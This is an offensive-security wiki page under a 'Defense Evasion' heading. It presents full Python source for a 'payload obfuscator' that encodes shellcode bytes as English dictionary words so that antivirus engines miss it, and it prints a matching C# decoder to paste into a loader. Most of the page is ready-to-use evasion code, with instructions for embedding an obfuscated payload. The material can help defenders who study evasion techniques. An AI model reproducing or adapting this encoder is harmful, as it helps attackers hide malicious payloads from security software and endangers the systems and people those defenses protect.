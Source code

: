 ```yaml
---
description: Defense Evasion
---
```



# Code obfuscation with association dictionnary

The use of a shellcode encoder by dictionary association is in the same logic as obfuscation by IP address, by Mac address or UUID, but includes linguistic consistency. This project merges security and linguistic engineering for advanced concealment.


## Why strings

Some antiviruses may consider that the presence of English strings in the compiled data of a binary are considered as a historical indicator and reinforce its legitimacy against detection engines.
Dictionary association does not increase entropy and allows complex data encoding to be reversed.


## Execution

By default, the encoder takes a list of words from MIT, but you can also create your own.
It calculates each hexadecimal value from 0x00 to 0xFF and associates a word with it. Then, each byte of your shellcode is converted to hexadecimal and encoded with the corresponding word.
You can do the exact opposite in C# to get your shellcode.

![](../../.gitbook/assets/dictionnary_association.png)


## Source code

```python
#!/usr/bin/env python3

# Author : Processus Thief
# https://github.com/ProcessusT/Dictofuscation
# Version : 1.0

import sys
import requests
import random
import json


def main(input_file):
    # Creation du dictionnaire de correspondance
    word_site = "https://www.mit.edu/~ecprice/wordlist.10000"
    response = requests.get(word_site)
    words = response.content.splitlines()
    words = [word.decode('utf-8') for word in words]
    random.shuffle(words)
    hex_values = [f'0x{i:02x}' for i in range(256)]
    word_dict = dict(zip(hex_values, words[:256]))
    dict_items = [f'{{ "{word}", "{hex_val}" }}' for word, hex_val in word_dict.items()]
    formatted_dict = "var wordDict = new Dictionary<string, byte>\n{\n    " + ",\n    ".join(dict_items) + "\n};"
    print("1. Copier-coller ce dictionnaire d'association dans le code C# : \n\n" + str(formatted_dict) + "\n\n")

    # Encodage du payload
    encoded_string = "string data = \""
    with open(input_file, 'rb') as f_in:
        byte = f_in.read(1)
        while byte:
            hex_value = f"0x{byte.hex()}"
            if hex_value in word_dict:
                encoded_string += word_dict[hex_value] + ' '
            byte = f_in.read(1)
    encoded_string = encoded_string.rstrip() + "\";"
    print("2. Utiliser ce payload obfusque dans votre code C# : \n\n" + str(encoded_string) + "\n\n")

    # Affichage de la fonction de decodage
    csharp_function = """
    static byte[] DecodeWordsToBytes(string data, Dictionary<string, byte> wordDict){
        var words = data.Split(new[] { ' ' }, StringSplitOptions.RemoveEmptyEntries);
        var byteList = new List<byte>();
        foreach (var word in words){
            if (wordDict.ContainsKey(word)){
                byteList.Add(wordDict[word]);
            }else{
                Console.WriteLine("[!] Error while decoding");
            }
        }
        return byteList.ToArray();
    }"""
    print("3. Copier-coller cette fonction de decodage dans le code C# : \n\n" + str(csharp_function) + "\n\n")
    


if __name__ == "__main__":
    print("##########################################")
    print("########### PAYLOAD OBFUSCATOR ###########")
    print("##########################################\n")
    if len(sys.argv) != 2:
        print("Usage: python encode.py <path_to_raw_payload_file>\n")
        sys.exit(1)
    
    file_path = sys.argv[1]
    main(file_path)
```


## References

{% embed url="https://github.com/ProcessusT/Dictofuscation" %}

